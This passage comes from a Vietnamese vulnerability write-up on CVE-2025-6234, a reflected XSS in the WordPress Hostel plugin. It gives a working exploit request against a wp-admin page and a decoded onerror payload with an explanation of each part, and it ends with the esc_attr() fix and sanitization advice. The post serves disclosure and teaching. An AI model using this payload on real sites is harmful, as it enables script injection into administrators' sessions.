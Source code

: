 `WPHOSTEL_PATH` có thể là hằng global được sử dụng sau khi file **PHP** chứa nó được load, Để biết được chính xác, ta tìm kiếm với từ khóa `WPHOSTEL_PATH`.

{{< figure src="search_path.png" caption="Đường dẫn tuyệt đối tới thư mục plugin" >}}

## Exploit

**Request với XSS payload**

```http
GET /wp-admin/admin.php?page=wphostel_bookings&type=upcoming&offset=1&ob="><img+src%3D1+onerror%3Dalert%28document.domain%29> HTTP/1.1
```

**Payload thực tế**:

```html
"><img src=x onerror=alert(document.domain)>
```

* Đóng thẻ `<a>` bằng ký tự `">`.
* Chèn thêm thẻ `<img>` có thuộc tính `onerror` để **kích hoạt JavaScript**.
* Dùng `alert(document.domain)` thay cho `alert(1)` như một thói quen, nhằm chứng minh rõ ràng khả năng đọc thông tin từ DOM. Điều này cũng giúp tránh trường hợp [Sandbox Domain](https://bughunters.google.com/learn/invalid-reports/web-platform/xss/6619189462433792/xss-in-sandbox-domains) khiến cho tác động của `payload` bị xem nhẹ hoặc không có.

**Kết quả**:

{{< figure src="xss_success.png" caption="XSS phản chiếu thành công" >}}

## Conclusion

Lỗ hổng **CVE-2025-6234** trong plugin **WordPress Hostel** bắt nguồn từ việc không xử lý đúng dữ liệu đầu vào `($_GET['ob'])` trước khi phản hồi lại trên giao diện. Điều này mở ra khả năng cho attacker chèn mã độc **Reflected XSS**.

Bản vá đã khắc phục bằng cách sử dụng hàm `esc_attr()` để escape dữ liệu trước khi in ra HTML, đảm bảo rằng các giá trị không tin cậy không thể chèn script độc hại.

**Key takeaways**:

* Luôn **sanitize** dữ liệu đầu vào và **escape** dữ liệu đầu ra theo ngữ cảnh (context).
* Với WordPress, tận dụng các hàm built-in như `sanitize_text_field()`, `esc_attr()`, `esc_html()`, `wp_kses()`... để giảm thiểu rủi ro bảo mật.

## References

[XSSCross-site scripting (XSS) cheat sheet - PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress Hostel Plugin < 1.1.5.8 is vulnerable to Cross Site Scripting (XSS) - patchstack](https://patchstack.com/database/wordpress/plugin/hostel/vulnerability/wordpress-hostel-plugin-1-1-5-8-reflected-xss-vulnerability)


---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-10-02-cve-2025-6234/  

